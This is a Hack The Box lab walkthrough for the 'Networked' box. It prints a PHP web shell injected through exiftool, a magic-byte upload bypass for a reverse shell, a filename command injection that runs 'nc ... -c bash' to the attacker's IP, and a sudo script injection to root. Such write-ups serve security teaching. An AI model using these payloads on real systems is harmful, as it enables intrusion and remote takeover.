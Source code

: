 ```yaml
---
layout: writeup
show-avatar: false
redirect_from: /walkthroughs/networked.html
title: Networked
logo: /assets/img/writeups/htb/boxes/networked/networked_logo.png
platform: HTB
category: Boxes
OS: Linux
difficulty: Easy
release: 24 Aug 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/8292">guly</a>
published: 2019 11 01
---
```


<h2 align="center">Enumeration</h2>
Starting with standard nmap scan...

```s
# Nmap 7.80 scan initiated Thu Oct 31 14:15:09 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.098s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 14:18:04 2019 -- 1 IP address (1 host up) scanned in 175.03 seconds

```

Seeing port 80, we navigate to the webpage and see nothing of interest, however checking the page source shows us an interesting comment

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

So we know there is more to find. However we should be directory busting anyway, so this doesn't offer much.

Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.146
```

with the appropriate wordlist yielded the following results

```sh
/uploads (Status: 301)
/photos.php (Status: 200)
/index.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```

If we navigate to /backup we see

![backup](/assets/img/writeups/htb/boxes/networked/networked_backup_page.png)

Downloading and extracting the tar file we find its the source files for the .php pages we found. 


![Source](/assets/img/writeups/htb/boxes/networked/networked_source_files.png)

Analyzing the upload.php and lib.php files we see that there is some extension checking in place, as well as a mimetype check. These are in place to attempt to only allow us to upload an image file. There are two ways I found to bypass this.


<h3 align="center">Initial foothold</h3>
**Method 1:**



We can modify the exif data of an image to give us code execution using **exiftool** as follows

```sh
exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" hilbert.jpg 

```

then we rename the image file to hilbert.php.jpg and upload it and navigate to the image and check if we have code execution

![RCE](/assets/img/writeups/htb/boxes/networked/networked_exifdata_torce.png)

Bingo! We can now use wget to download a shell file to the server and then navigate to it to get a reverse shell.

**Method 2:**

This method is much easier. We simply take our favorite php reverse shell (I'm using one from pentestmonkey) and append 'magicbytes' to the start of the file. This makes the mimetype check php is using think it is an image file. 

![magicbytes](/assets/img/writeups/htb/boxes/networked/networked_magicbytes.png)

Again we rename the file with the extension .php.jpg and upload it. Then set up a netcat listener on whatever port you edited into the reverse shell, and navigate to the image file

![reverseurl](/assets/img/writeups/htb/boxes/networked/networked_reverse_url.png)

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 47636
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:52:12 up  3:22,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache

```



<h3 align="center">Privilage Escalation</h3>
We have a shell but we are only user apache. Looking at the /etc/passwd file we see there is user named "guly". If we look in /home/guly we see two interesting files. 'crontab.guly' and 'check_attack.php'. Looking at the files we see that crontab.guly is set to run check_attack.php every 3 minutes. If we look at check_attack.php

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```



We see that it basically looks at all the files in the uploads folder that we previously placed our disguised image file in, and deletes files that don't belong. If we look closely at the code, this line in particular stands out

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

The value variable holds the name of a file and we can name it in such a way to execute code!

As user apache we have write access in that directory, so all we need to do is go to the directory and create the appropriate named file.

```sh
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ touch ";nc 10.10.14.3 1235 -c bash"

```

Then we simply have to listen on the appropriate port and wait for the program to run and then...

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 57202
whoami
guly

```

Bingo! We can now cat the user.txt file.

<h3 align="center">On To Root</h3>
Running "sudo -l" we see

```sh
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

So we can run this changename.sh file as root without a password.

A bit of googling turns up this vulnerability

https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

which tells us that due to some improper handling anything after an inputted space for the name field when running the script will be executed. So we can simply enter "bash" after the space like so

```sh
[guly@networked sbin]$ sudo ./changename.sh
interface NAME:
hilbert bash
interface PROXY_METHOD:
blah
interface BROWSER_ONLY:
blah
interface BOOTPROTO:
blah 
[root@networked network-scripts]# whoami
root

```

We now have access to the root flag.
